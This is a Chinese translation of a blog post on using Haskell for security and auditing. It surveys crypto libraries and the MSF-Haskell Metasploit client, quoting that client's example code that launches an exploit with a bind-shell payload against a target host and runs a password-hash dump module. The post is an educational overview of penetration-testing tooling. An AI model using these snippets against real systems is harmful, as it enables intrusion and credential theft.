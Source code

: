 # Haskell 的安全性

> 原文:[https://dev.to/terceranexus6/security-with-haskell-3cio](https://dev.to/terceranexus6/security-with-haskell-3cio)

从“*你疯了*”到“*为什么还要？*“这是我在计算机科学领域的朋友告诉我的一些事情，当我开始与 Haskell 一起工作时，特别是在安全性方面。按顺序回答，是的，我疯了，但不是因为 Haskell，嗯，我选择使用 Haskell 是出于安全考虑。首先，函数式编程*是新的黑色*，可能会有越来越多的应用程序使用它来构建。为了安全而选择纯函数式语言并没有那么疯狂。另一方面，Haskell 的数学方法在密码学中非常有用。

[![](../Images/bf10463300abf856525d30809f53d162.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--JU9VWTow--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_66%2Cw_880/https://78.media.tumblr.com/tumblr_lpkxtmFtmp1qc8ie7o1_500.gif)

那么，我如何使用 Haskell 进行审计安全呢？

我想在这里指出一个名为 [hackage-security](https://hackage.haskell.org/package/hackage-security) 的特定库，它目前只支持索引签名。正如维基中所描述的，*图书馆有两个主要入口: [Hackage。安全。客户](https://hackage.haskell.org/package/hackage-security-0.5.3.0/docs/Hackage-Security-Client.html)是客户的主要入口，而[是黑客。服务器](https://hackage.haskell.org/package/hackage-security-0.5.3.0/docs/Hackage-Security-Server.html)是服务器的主要入口点。值得一查。*

除此之外，github 中还有一个名为 [MSF-Haskell](https://github.com/GaloisInc/msf-haskell) 的库，允许使用 Haskell 执行渗透测试。它还包括 haskell 中的一个脚本作为例子，以及整个白皮书。它实际上是 Metasploit API 的一个实现，使开发人员能够编写与 Metasploit 服务器通信的 Haskell 客户端。例如，在示例脚本的部分中，启动了针对目标主机的示例利用。

```
launchExploit :: (LoudCxt s) => Host Attackable -> MSF s ()
launchExploit targetHost = do
  _ <- module_execute metasploitableModuleType metasploitableModuleName
      $ toObject
      $ Map.fromList
          [ ("RHOST",   toObject targetHost)
          , ("PAYLOAD", toObject metasploitablePayload)
          ]
  return () 
```

Enter fullscreen mode Exit fullscreen mode

我们之前定义了有效载荷本身:

```
metasploitablePayload = Payload "cmd/unix/bind_perl" 
```

Enter fullscreen mode Exit fullscreen mode

或者这部分用于抓取密码哈希:

```
gatherCredentials :: (LoudCxt s) => SessionId -> MSF s ()
gatherCredentials sessionId = do
  let modTyp = PostModuleType
      modNm = ModuleName "linux/gather/hashdump"

  r <- module_execute modTyp modNm
      $ toObject
      $ Map.fromList
          [ ("SESSION",   toObject sessionId)
          ]
  case r of
    (ExecJobId j) -> waitJob j
    _             -> return () 
```

Enter fullscreen mode Exit fullscreen mode

总而言之，Haskell *可能会成为安全领域*功能性*脚本的一个选项。 [*也许*](https://wiki.haskell.org/Maybe) good_option，你知道，只是一个选项或者什么都没有，哈哈功能性玩笑，badum tss。*

[![](../Images/d6ed80d08df9d29b9060a3f4e1a65dc6.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--HSyOSaL3--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/http://cuddlebuggery.com/wp-content/uploads/2012/08/Ba-dum-tish.png)

无论如何，这些都是全新类型的攻击！即使是从零开始，也不使用如前所述的 API 实现。说到加密，这个 [repo](https://github.com/mfourne/eccrypto.git) 很有趣，因为它处理椭圆曲线加密。Welp，我邀请你们所有人来看看 Haskell 官方网站上的[加密库](https://hackage.haskell.org/packages/search?terms=cryptography)，以及安全库[库](https://hackage.haskell.org/packages/search?terms=security)。我还在调查，所以如果有人在这同一领域工作，请提供更多信息！